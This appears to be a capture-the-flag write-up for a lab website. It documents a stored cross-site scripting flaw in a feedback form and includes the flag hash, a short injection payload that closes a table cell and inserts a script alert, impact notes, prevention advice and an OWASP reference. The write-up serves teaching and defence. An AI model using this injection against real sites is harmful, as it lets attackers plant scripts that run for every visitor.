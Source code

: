 # Stored XSS

## 🏴 Flag

```
0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

## 📌 Extract

Page: [http://{IP}/?page=feedback](http://{ip}}/?page=survey)

In the textarea balise we can type an input for the next comment. And we can see that a comment is built like this:

```html
<tr><td>Comment : This is the best site EVER</td></tr>
```

We just have to close the <td> block with </td> as input and implement a script just after

```html
<tr><td>Comment : </td><script>alert("pwned")</script></tr>
```

We modify the website and everybody will see the alert

## **🎯 Use**

This vulnerability lets attackers inject malicious scripts into stored data that the application trusts. Without proper validation, they can:

- Modify **content** or **comments** to display malicious scripts.
- Change **user profiles** to inject harmful code.
- Escalate **privileges** by altering stored data.
- **Bypass restrictions** by submitting unexpected scripts.

## **🔒 Prevention**

1. **Input Sanitization:** Always sanitize user input to remove potentially malicious scripts.
2. **Do Not Trust Stored Data:** Any data that can be modified by users should be treated as untrusted.
3. **Enforce Authentication & Authorization:** Restrict modifications to authorized users.
4. **Content Security Policy (CSP):** Implement CSP headers to prevent execution of unauthorized scripts.
5. **Log & Monitor:** Detect abuse by tracking unusual script injections and actions.

## 📚 Documentation

📖 [OWASP](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting.html)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)